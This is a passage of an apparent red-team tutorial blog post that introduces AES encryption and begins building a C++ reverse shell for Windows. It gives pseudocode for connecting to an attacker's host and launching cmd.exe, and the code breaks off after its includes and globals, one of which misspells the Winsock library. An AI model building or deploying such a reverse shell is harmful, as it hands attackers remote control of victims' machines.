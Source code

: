 ```yaml
---
title:  "Simple C++ reverse shell for windows"
date:   2021-09-15 10:00:00 +0600
header:
  teaser: "/assets/images/5/2021-09-15_15-16.png"
categories: 
  - tutorial
tags:
  - red team
  - windows
  - pentest
  - malware
---
```



﷽

Hello, cybersecurity enthusiasts and white hackers!

![AES encrypt](/assets/images/5/2021-09-15_15-16.png){:class="img-responsive"}

This post is a practical case for educational purpose only.

When working on one of my projects on [github](https://github.com/cocomelonc/peekaboo), I was advised to look towards AES encryption.
The Advanced Encryption Standard (AES) is the first and only publicly accessible cipher approved by the US National Security Agency (NSA) for protecting top secret information. AES was first called Rijndael after its two developers, Belgian cryptographers Vincent Rijmen and Joan Daemen. Used in WPA2, SSL/TLS and many other protocols where privacy and speed are important. 

This post is not intended to delve into cryptography, you just need to know what encryption is and what a reverse shell is.

The following illustration shows how symmetric key encryption works:

![AES](/assets/images/5/aes-1.png){:class="img-responsive"}

For a deeper understanding of cryptography, you can read a free book from a Stanford University professor Dan Boneh: [book](https://toc.cryptobook.us/)  
And what is reverse shell I wrote [here](/tutorial/2021/09/11/reverse-shells.html)  

So, let's go to code a simple reverse shell for windows, and try AES encryption in action.
The pseudo code of a windows shell is:
1. Init socket library via WSAStartup call
2. Create socket
3. Connect socket a remote host, port (attacker's host)
4. start cmd.exe

```cpp
/*
shell.cpp
author: @cocomelonc
windows reverse shell without any encryption/encoding
*/
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET wSock;
struct sockaddr_in hax;
STARTUPINFO sui;
PROCESS_INFORMATION pi;

int main(int argc, char* argv[])
{
```